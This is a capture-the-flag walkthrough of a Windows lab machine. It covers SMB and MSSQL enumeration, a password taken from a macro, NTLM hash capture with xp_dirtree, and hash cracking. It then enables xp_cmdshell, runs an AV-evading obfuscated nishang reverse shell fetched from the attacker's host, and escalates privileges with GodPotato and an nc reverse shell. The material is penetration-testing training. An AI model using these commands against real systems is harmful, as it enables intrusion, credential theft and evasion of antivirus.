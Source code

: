 #Pwned
```IP
10.10.10.125
```
# Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 10.10.10.125 -vvv -p- -oN enum/full
```
The output being:
```
PORT      STATE SERVICE       REASON          VERSION
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC                  
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
1433/tcp  open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2017 14.00.1000.00; RTM
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0  
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
## SMB
nxc doesn't work for some reason, but smbclient does:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220113806.png?raw=true)
We can find an xlsm file inside the share:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220114042.png?raw=true)
The file was created a user called Luis
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220114517.png?raw=true)

## HTTP

# Exploitation
Let's try a phishing attack with a malicious xlsm
It wont work
It has already some macros, lets check them
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220115218.png?raw=true)
We find a password
```
PcwTWTHRwryjc$c6
```
It seems to respond to our password
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220120120.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220120157.png?raw=true)
We can extract some more users and since what the macro is doing in an sql database connection we will try with impacket-mssql to connect to the database
```
impacket-mssqlclient Reporting@10.10.10.125 -windows-auth
```
We do some mssql enumerations but the databases doesn't seem to contain anything interesting. The users don't have hashes that we can crack, and we don't have xp_cmdshell in order to execute OS commands. Let's set up responder and try to get a call back with xp_dirtree in order to perform an smb relay attack:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220120940.png?raw=true)
The command used being the following:
```
exec master.dbo.xp_dirtree '\\10.10.14.17\test'
```

And we get a hash for mssql-svc!
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220121213.png?raw=true)
Let's crack the hash:
```
john --wordlist=/usr/share/wordlists/rockyou.txt files/mssql-svc.hash
```
And we get the following password:
```
corporate568
```
Let's try the new password on some services, the only one working will be mssql again
```
impacket-mssqlclient mssql-svc@10.10.10.125 -windows-auth
```
We have code execution
```
EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```
```
EXEC master..xp_cmdshell 'whoami'
```
When tryint to upload and execute some reverse shell the AV prevents us to do so:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220124742.png?raw=true)
We will need a tool to obfuscate the code
Let's create a nishang reverse shell and obfuscate it with https://github.com/JoelGMSec/Invoke-Stealth
Firstly we clone the repo and cd into it, and then copy the revshell into our directory and edit the contents of it to our IP and port:
```
cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 .
```
And in a powershell we obfuscate it with the following command:
```
./Invoke-Stealth.ps1 ../rev.ps1 --technique PyFuscation
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220130715.png?raw=true)
We transfer it with:
```
powershell wget http://10.10.14.17:8000/rev.ps1 -O C:\users\public\rev.ps1
```
And execute it with 
```
EXEC master..xp_cmdshell 'powershell  C:\users\public\rev.ps1'
```
We get first flag:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220131625.png?raw=true)

# PrivEsc
## Manual
we have impersonate priv
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220131529.png?raw=true)
Let's get a reverse shell with GodPotato
```
wget http://10.10.14.17/GodPotato-NET4.exe -O GodPotato-NET4.exe
```
```
wget http://10.10.14.17/nc64.exe -O nc.exe
```
```
.\GodPotato-NET4.exe -cmd ".\nc.exe -t -e C:\windows\system32\cmd.exe 10.10.14.17 1234"
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220132214.png?raw=true)
## Automated

### Peass
### Mimikatz

# Lateral Movement


